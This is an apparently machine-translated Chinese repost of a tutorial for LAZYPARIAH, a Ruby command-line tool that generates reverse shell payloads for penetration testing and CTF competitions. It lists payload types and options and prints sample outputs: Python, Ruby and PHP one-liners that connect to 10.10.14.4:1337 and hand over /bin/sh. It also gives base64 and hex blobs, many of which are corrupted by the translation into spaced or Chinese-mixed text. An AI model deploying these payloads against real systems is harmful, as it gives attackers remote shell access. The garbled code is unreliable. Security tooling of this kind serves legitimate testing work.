

# LAZYPARIAH:一个动态生成反向 Shell 有效负载的工具

> 原文：<https://kalilinuxtutorials.com/lazypariah/>

.png)

LAZYPARIAH 是一个用纯 Ruby 编写的简单且易于安装的命令行工具，可以在渗透测试和夺旗(CTF)竞赛中使用，以动态生成一系列反向 shell 有效负载。

LAZYPARIAH 支持的反向 shell 有效负载包括(但不限于):

*   c 二进制有效载荷(动态编译):`**c_binary**`
*   Ruby 有效载荷:**`ruby``ruby_b64``ruby_hex``ruby_c`**
*   Powershell 有效载荷: **`powershell_c`，`powershell_b64`**
*   Base64 编码的 Python 负载:`**python_b64**`
*   Rust 二进制有效载荷(动态编译):`**rust_binary**`
*   包含 base64 编码的 Python 有效负载的 PHP 脚本通过`**system()**`函数调用:`**php_system_python_b64**`
*   Java 类(动态编译):`**java_class**`
*   Perl 有效负载:**、`perl`、`perl_b64`、`perl_hex`、`perl_c`、**
*   简单的 PHP 有效负载(针对特定的文件描述符): **`php_fd`，`php_fd_c`，`php_fd_tags`，**

## 警告

该工具旨在仅由合格的渗透测试人员、安全研究人员和红队专业人员在授权的情况下使用。在下载、安装或使用此工具之前，请确保您了解您所在司法管辖区的相关法律。本工具的作者不认可、鼓励或纵容将本工具用于非法或未经授权的目的。

## 依赖关系

*   Ruby >= 2.7.1 (LAZYPARIAH 尚未在以前版本的 Ruby 上进行测试)
*   OpenJDK(可选:仅对于`**java_class**`有效载荷是必需的。)
*   GCC(可选:仅`**c_binary**`有效载荷需要。)
*   Rust(可选:仅`**rust_binary**`有效载荷需要。)

## 安装

LAZYPARIAH 可以使用 RubyGems 安装程序安装在大多数 GNU/Linux 和 BSD 系统上，如下所示:

**宝石安装懒人**

## 使用

**用法:lazypariah【选项】
注意:可能是 IPv4 地址、IPv6 地址或主机名。
示例:lazy pariah-u python _ b64 10 . 10 . 14 . 4 1555
示例:lazypariah python_c 恶意. local 1337
有效载荷:
awk
bash _ TCP
c _ binary
Java _ class
NC
NC _ openbsd
NC _ pipe
nodejs
nodejs _ b64
nodejs _ c ruby
ruby _ b64
ruby _ c
ruby _ hex
rust _ binary
socat
有效选项:
-h，–help 显示帮助文本并退出。
-l，–许可显示许可信息并退出。
-u，–URL URL-对有效负载进行编码。
-v，–版本显示版本信息并退出。
-D，–FD INTEGER 指定 TCP 的目标使用的文件描述符。某些有效载荷需要。
-P，–PV INTEGER 指定有效负载的 Python 版本。必须是 2 或 3。默认情况下，没有指定版本。
-N，–no-new-line 不要在有效负载的末尾添加新行字符。
–b64 以 base-64 编码 c_binary、rust_binary 或 java_class 有效负载。
–十六进制编码十六进制的 c_binary、rust_binary 或 java_class 有效负载。
–gzip 使用 zlib 压缩 c_binary、rust_binary 或 java_class 有效负载。
–gzip _ b64 使用 zlib 压缩 c_binary、rust_binary 或 java_class 有效负载，并以 base-64 编码结果。
–gzip _ hex 使用 zlib 压缩 c_binary、rust_binary 或 java_class 有效负载，并将结果编码为十六进制。**

## 更多注释和示例

上面列出的有效载荷或多或少都有系统的名称。

以`**_c**`结尾的有效负载旨在从 shell 会话中执行。这些有效载荷使用相关的解释器(如`**python3 -c**`或`**ruby -e**`)直接执行代码。

例如，命令`**lazypariah python_c 10.10.14.4 1337**`应该产生以下输出:

**python -c '导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(“10 . 10 . 14 . 4”，1337))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；'**

另一方面，命令`**lazypariah python 10.10.14.4 1337**`应该简单地产生一个 Python 代码块，该代码块有可能被放在一个`**.py**`文件中:

**导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(“10 . 10 . 14 . 4”，1337))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；**

一般来说，选择以`**_b64**`结尾的有效负载应该会产生一个命令，该命令旨在以类似于以`**_c**`结尾的有效负载的方式从 shell 会话中运行，但是这些命令在结构上会有所不同。这些命令将基本上通过管道把一个 base64 编码的代码块传递给`**base64 -d**`，然后传递给相关的解释器(比如`**python3**`、`**python2**`或`**ruby**`)。

例如，命令`**lazypariah python_b64 10.10.14.4 1337**`应该产生以下输出:

**echo aw 1wb 3j 0 ihnvy 2 tldcxzdjwcm 9 jzxnzlg 9 zo 3c9ja 2v 0 lnnvy 2 tldchzqzzzzzb 2 nrzquzzzzzq su 5 fvcxzb 2 nrzquu 09 ds 19 tvfffffffffffffffffffffffffffffffff0po 3 非常 29 ubmvjdcgoiyeljljevljje 0 ljqildzmldzdcpkttvcy 5 kdxayhmzmlszw 5 vkcksmck 7 ig 9**

例外的是`**powershell_b64**`，它使用 Powershell 内置的 base64 解码器。例如，命令`**lazypariah powershell_b64 10.10.14.4 1337**`应该返回以下内容:

**powershell-e jajajajagawablag 4 adaagad 0 AIA guadatae 8 aygbqaguayb0 acaauwb 5 Ahmad abag 0 alguadaguadaau afmabwajagssazqb 0 ahmalgalgalgebanmar abdagwablag 4 adaaoamqawac 4 amqawac 4 amqa 0 AC 4 anaanaanaanaanakawamqazamadmanwapasajazaqacgblabqagad 0 aiaagmababpagabab 0 AC 4 arwbalaqauwb 0**

(注意:上述有效负载的长度是由于 Powershell 使用 UTF-16LE 编码，其中一个字符对应两个字节。)

这些类型的有效负载在某些情况下非常有用，因为它们不包含任何单引号或双引号。

以类似的方式，选择以`**_hex**`结尾的有效负载将产生一个命令，将十六进制编码的代码块传送到`**xxd -p -r -**`，然后传送到相关的解释器。例如，`**lazypariah perl_hex 10.10.14.4 1337**`应该产生以下输出:

回声 75736520536 f 636 b 65743 b 24693d 2231302 e 31302 e 31342 e 34223 b 24703d 3133333373 b 736 f 636 b 657428532 c 50465 f 494 e 45542 c 534 f 434 b 5 f 53545245414d 2c 6765747077

编译后的有效负载( **`c_binary`、`java_class`** 和`**rust_binary**`)有可选的命令行参数，用于 zlib 压缩(`**--gzip**`)、base64 编码(`**--b64**`)和十六进制编码(`**--hex**`)。

例如，命令`**lazypariah --b64 java_class 10.10.14.4 1337**`应该产生以下输出:

**yv 66 vgaaadca xwhqapbwabwabwaqagaac 0 kaaiagavbwawcaaxcgaadikakamcmawoaiwa 0 cgaidmkakakakacykacynajaa 1 cgiadykakakakakachuogunaaamgoaowa 8 cgajad 0 had 4 kamapwobwabbbbwabbwabwabqxq+aqadkclwaqaeq 29 kzqed 0 xpbmvodw 1 izjuyzqvn 0**

在分别使用`**--gzip_b64**`和`**--gzip_hex**`命令行参数以 base64 或十六进制编码之前，也可以对上述编译后的负载之一执行 zlib 压缩。例如，命令`**lazypariah --gzip_hex java_class 10.10.14.4 1337**`应该产生以下输出:

**1f 8b 08003 ca 25960000375535d 57125114 DD 83335 ca 0511431 a 53433 b 5f 00 bb 42 c13 cc 4a 3200 DCD 5 a 03 DC 741419 d7cc 50 f 6577 ca 8b57 cf 1 b55 EB 095 ab 7e 403 fa 6d 52 fc8 ce 0549 c91 ae6 cced 9779 F7 BCE 9939 F3 FDD 7976 f 0046 f 0 ca 8336 f 430**

一些有效负载要求用户指定 TCP 连接的目标使用的文件描述符。这种有效载荷的一个例子是`**php_fd_tags**`，它是一个简单的 PHP 有效载荷，包含在 PHP 标签(`**<?php**`和`**?>**`)中，目标是一个特定的文件描述符。

要指定目标文件描述符，用户必须使用命令行参数`**-D INTEGER**`或`**--fd INTEGER**`。例如，要生成以文件描述符`5`为目标的`p**hp_fd_tags**`有效负载，可以使用下面的命令:`**lazypariah -D 5 php_fd_tags 10.10.14.4 1337**`

由此产生的有效载荷应该如下:`**<?php $sock=fsockopen("10.10.14.4",1337);exec("/bin/sh -i <&5 >&5** **2>&5");?>**`

下面是一些命令及其各自输出的示例。

命令`**lazypariah -P 3 -u python_b64 10.10.14.4 1337**`的输出:

**echo % 20aw 1wb 3j0ihnvy 2 tldcxzdjwcm 9 jzxnzlg 9 zo 3c9ja 2v 0 lnnvy 2 tldchzzquzb 2 nrzquzzzsu 5 fvcxzb 2 nrzquu 09 ds 19 tvfffffffffffffffffffffffffqpo ljje 0 ljqildzmldzdcpkttvcy 5 kdyhmzmlszw 5 vkcmck 7**

命令`**lazypariah -P 2 python_c 10.10.14.4 1337**`的输出:

**python 2-c’导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(“10 . 10 . 14 . 4”，1337))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；'**

命令`**lazypariah -D 3 php_fd_tags 10.10.14.4 1337**`的输出:

**&3>2&3】；？>**

命令`**lazypariah ruby 10.10.14.4 1337**`的输出:

**要求“插座”；如果分叉则退出；c = TCP socket . new(" 10 . 10 . 14 . 4 " 1337 ")；while(cmd = c . gets)；IO.popen(cmd，" r"){|io|c.print io.read}end**

[Download](https://github.com/octetsplicer/LAZYPARIAH#usage)